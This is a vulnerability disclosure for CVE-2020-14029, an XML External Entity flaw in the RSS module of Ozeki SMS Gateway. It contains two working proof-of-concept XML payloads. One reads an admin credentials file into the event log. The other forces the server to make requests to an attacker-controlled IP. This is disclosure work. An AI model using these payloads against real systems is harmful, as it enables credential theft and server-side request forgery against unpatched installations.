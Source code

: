 # CVE-2020-14029: Ozeki SMS Gateway Insecure XML Parsing in the "RSS" Module

In the Ozeki SMS Gateway software, versions 4.17.6 and below, the RSS module processes XML files in an unsafe manner, which opens the application to XML External Entity attacks.
<br/>
This vulnerability can be leveraged to:
- Read files directly via verbose error in Event Logs
- Server Side Request Forgery (SSRF) attacks
- Exfiltrating files remotely via Out of Band (OOB) attacks

### Requirements:

This vulnerability requires:
- Access to an Ozeki Web Application administration interface with rights to create/modify "RSS" feeds.

### Proof Of Concept:

#### Inline XXE

This vulnerability can be used to reflect the content of arbitrary files in the "Event" window via a "Invalid Time Format" error:
<br/>
First, we point the URL to a HTTP server controlled by the attacker (Ex. 192.168.243.128):

<img src="Web%20View.png"/>

Upon the victim's request, the attacker's server will serve the following malicious XML content:

```
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY ext SYSTEM "C:\Program Files (x86)\Ozeki\OzekiNG - SMS Gateway\Config\user-admin.txt">
]>
<rss xmlns:media="https://github.com/DrunkenShells" version="2.0">
<channel>
<generator>NFE/5.0</generator>
<title>Top CVEs - DrunkenShells Disclosures</title>
<link>https://github.com/DrunkenShells/Disclosures</link>
<language>en-US</language>
<webMaster>Mal</webMaster>
<copyright>2020 Mal Inc.</copyright>
<lastBuildDate>Tue, 02 Jun 2021 20:24:34 GMT</lastBuildDate>
<description>CVE News</description>
<item>
<title>XXE in Ozeki SMS Gateway</title>
<link>https://github.com/DrunkenShells/Disclosures</link>
<guid isPermaLink="false">52780825896929</guid>
<pubDate>&ext;</pubDate>
<description>Mal</description>
<source url="https://cve.mitre.org/">Mitre</source>
</item>
</channel>
</rss>
```

We can see the request made by the server:

<img src="Attacker's%20Server.png"/>

And, in this case the "user-admin.txt" file gets reflected in the event log:

<img src="Error%20based%20XXE.png"/>


#### Server Side Request Forgery (SSRF)

Another way to use this XXE is to trigger a SSRF, in this case by making a controlled HTTP GET request when the XML is parsed.
<br/>
We will be using the same steps as above, but the XML is replaced with the following:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY callhome SYSTEM "http://192.168.243.128:8000/hehehehe">
]
>
<foo>&callhome;</foo>
```

Now, every time the XML is parsed, a second HTTP request to "http://192.168.243.128:8000/hehehehe", will be triggered.

<img src="SSRF.png"/>
